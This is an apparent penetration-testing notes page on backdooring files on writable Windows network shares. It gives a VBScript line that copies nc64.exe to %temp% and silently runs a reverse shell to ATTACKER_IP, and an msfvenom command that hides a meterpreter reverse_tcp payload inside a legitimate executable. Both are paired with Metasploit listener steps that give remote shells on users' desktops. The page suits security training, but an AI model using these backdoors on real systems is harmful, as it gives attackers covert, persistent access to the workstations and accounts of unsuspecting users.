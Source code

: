 # Abusing writable shares

## Resources

1. `CreateObject` function

{% embed url="https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/createobject-function" %}

2. `Run` method

{% embed url="https://www.vbsedit.com/html/6f28899c-d653-4555-8a59-49640b0e32ea.asp" %}

{% embed url="https://ss64.com/vb/run.html" %}

3. `copy`&#x20;

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/copy" %}

4. `msfvenom`

{% embed url="https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/vulnerability-and-exploitation/msfvenom" %}

## Backdoor mechanism

It is quite common to find network shares that hosts executable or scripts created by the administrator, that users can use to perform daily tasks. This is useful  for users since they can execute the shared resource without copying or installing it.&#x20;

Whenever a user opens the shortcut on their workstation, the executable or script will be copied from the server to the local `%temp%` folder, where it will be executed. Thus, any payload will run in the context of the final user's workstation and logged-in user account.

If the share is writable by anyone (or at least our compromised account), we can abuse this to create a backdoor.

### (1) Backdoor via `.vbs` scripts

Given that we have found a VBS (`.vbs` ) script running hosted on the share, we can inject a malicious code into script to provide ourselves with a backdoor.

**Step 1**

First, we have to upload a binary (such as `nc64.exe` ) that will aid us in creating the backdoor. This can be achieved using [smbclient](https://jarrettgxz-sec.gitbook.io/networking-concepts/networking-tools/miscellaneous/smbclient).

**Step 2**

Next, we can inject the malicious in the existing script. Assuming that the writable share is at `\\TARGET_IP\writable_share` .

{% code overflow="wrap" %}
```visual-basic
CreateObject("WScript.Shell").Run "cmd.exe /c copy /y \\TARGET_IP\writable_share\nc64.exe %temp% & %temp%\nc64.exe -e cnd.exe ATTACKER_IP PORT", 0, True
```
{% endcode %}

Essentially, this command executes a command using  `cmd.exe` which calls the `copy` command to copy the uploaded `nc64.exe` binary (uploaded to share) to the `%temp%` directory, before executing a reverse shell that provides us a backdoor to the system.

* the `/y` flag provided to `copy` means

> Suppresses prompting to confirm that you want to overwrite an existing destination file.

According to this [page](https://www.vbsedit.com/html/6f28899c-d653-4555-8a59-49640b0e32ea.asp), the following describes the last 2 values provided to the `Run` method:

* `intWindowStyle`

> Optional. Integer value indicating the appearance of the program's window. Note that not all programs make use of this information.

value of `0` : "Hides the window and activates another window."

* `bWaitOnReturn`

> Optional. Boolean value indicating whether the script should wait for the program to finish executing before continuing to the next statement in your script.&#x20;

If set to `True` , script execution halts until the program finishes.

**Step 3**

Finally, we have to start a listener using the `exploit/multi/handler` from Metasploit. Now, we will gain a remote shell on a user's desktop whenever someone executes this script.

### (2) Backdoor via `.exe` files

Given that we have found a Windows binary such as an `.exe` file, we can download it from the share and use `msfvenom` to inject a backdoor functionality. The result is a binary that still fulfils its original purpose, but execute an additional payload silently.

**Step 1**

We can use the downloaded binary as a template to create a new malicious binary (suppose the binary is named `vuln.exe`):

{% code overflow="wrap" %}
```sh
$ msfvenom --platform windows -x vuln.exe -k -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -b "\x00" -f exe -o mal_vuln.exe
```
{% endcode %}

**Step 2**

Finally, we have to start a listener using the `exploit/multi/handler` from Metasploit. Now, whenever someone executes this script, we will gain a remote shell on that user's desktop. Now, we will gain a remote shell on a user's desktop whenever someone executes the binary.

